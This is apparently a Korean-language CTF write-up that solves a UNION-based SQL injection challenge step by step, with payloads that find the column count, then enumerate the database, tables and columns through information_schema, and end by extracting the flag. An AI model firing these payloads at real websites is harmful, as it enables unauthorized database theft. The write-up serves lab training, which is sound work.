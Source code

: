 # DB 데이터 추출 1
UNION SQLi 

http://ctf.segfaulthub.com:9999/sqli_1/search.php

---
adminer 검색
![1](https://user-images.githubusercontent.com/106296883/233787526-f07764db-c6dc-4c4c-b77b-852a3550a401.PNG)

데이터가 4종류 조회된다는 것을 알 수 있음.

select 문으로 db 에서 조회할 것임.

해당 쿼리문의 기본 구조부터 파악해야 함.

admin, dmine 등등 검색을 해본 결과 모두 Adminer 로 검색된다는 것을 확인했음.

like , '%___%' 등의 구조일 것임

```
select ??? from ??? where search like = '%___%'
```
쿼리문은 이것으로 예상.

우선 union 을 활용하려면 컬럼의 개수부터 파악해야 함.   
그렇기에 order by 를 사용해서 컬럼의 개수를 유추할 것임
```
admin%' order by 1 #
통과

admin%' order by 2 #
통과

admin%' order by 3 #
통과

admin%' order by 4 #
통과

admin%' order by 5 #
검색 결과 나오지 않음.

→ 컬럼 개수 = 4
```

컬럼 개수를 파악했으니 이제 union 을 사용할 수 있음.   
union 을 사용해서 화면에 출력되는 데이터의 위치를 파악할 것임.
```
admin%' union select '1','2','3','4
```
![2](https://user-images.githubusercontent.com/106296883/233788006-2003e7b3-b115-497f-8dbf-f72986627f02.PNG)

1,2,3,4 컬럼의 위치를 확인했음.

이제 db 이름부터 확인
```
admin%' union select '1',database(),'3','4
```
![3](https://user-images.githubusercontent.com/106296883/233788044-e218661c-de66-48cc-9a27-4b3c61fe225e.PNG)

db 이름은    
sqli_1

이제 테이블의 이름을 확인해야 함.
```
select table_name from information_schema.tables where table_schema = 'sqli_1'
```
위의 query 문으로 SQL에 입력하면 sqli_1 데이터베이스 table 의 이름이 나옴.   
기본 구조와 결합하여 입력.
``` 
admin%' union select '1',table_name,'3','4' from information_schema.tables where table_schema = 'sqli_1' #
```
![4](https://user-images.githubusercontent.com/106296883/233788175-89dd7855-7c2a-4493-8623-38404e88c74c.PNG)

table 이름을 확인.
	
flag_table   
user_info

테이블 이름 확인했으니까 컬럼 이름도 확인하자.

컬럼 이름 확인하는 쿼리문은   
```
select column_name from informarion_schema.columns where table_name='flag_table'
```
적용하면
```
admin%' union select '1',column_name,'3','4' from information_schema.columns where table_name='flag_table' #
```
![5](https://user-images.githubusercontent.com/106296883/233788309-13052d48-05a2-47c2-9515-f1e0996fed75.PNG)

컬럼 이름도 확인.

그렇다면 이제 데이터를 추출하는 일만 남았음.
```
select flag from flag_table
```

```
admin%' union select '1',flag,'3','4' from flag_table #
```
![6](https://user-images.githubusercontent.com/106296883/233788365-8c12e097-402c-4ffe-9618-cf33378719eb.PNG)

flag 획득!
